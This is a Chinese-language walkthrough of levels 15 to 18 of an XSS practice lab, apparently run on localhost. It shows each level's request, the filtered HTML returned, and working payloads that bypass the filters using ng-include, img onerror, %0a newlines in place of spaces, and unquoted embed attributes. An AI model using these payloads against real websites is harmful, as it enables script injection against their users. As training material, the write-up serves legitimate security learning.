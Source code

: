 ```http
http://localhost/level15.php?src=%27level1.php?name=%3Cscript%3Ealert();%3C/script%3E%27
```

得到：

```html
<span class="ng-include:'level1.php?name=&lt;script&gt;alert();&lt;/script&gt;'"></span>
```

大小于号被实体转义了，于是构造img事件触发。

Payload如下：

```http
src="level1.php?name=<img%20src=1%20onerror=%27alert()%27>"
```

## Level 16

```http
keyword=<script>
```

返回：

```html
<center><&nbsp;></center>
```

说明把`script`换成了空格的实体符，测试image元素：

```http
keyword=<img%20src=1%20onerror=%27alert()%27>
```

```html
<center><img&nbsp;src=1&nbsp;onerror='alert()'></center>
```

成功创建`img`元素，但是空格被换成了空格实体符，用换行替换空格：

```http
keyword=<img%0asrc=1%0aonerror=%27alert()%27>
```

> tab一样会被换位空格实体符，因此不可以用%09绕过

## Level 17

Flash的，这东西太古老了，应该没啥网站会用，但是对于`embed`元素，页面的源代码中并没有使用双引号或单引号包围，因此我们可以直接令参数b=%20$payload，如下：

```http
arg01=a&arg02=%20onmouseover=alert()
```

## Level 18

还是Flash，一样的Payload：

```http
arg01=a&arg02=%20onmouseover=alert()
```
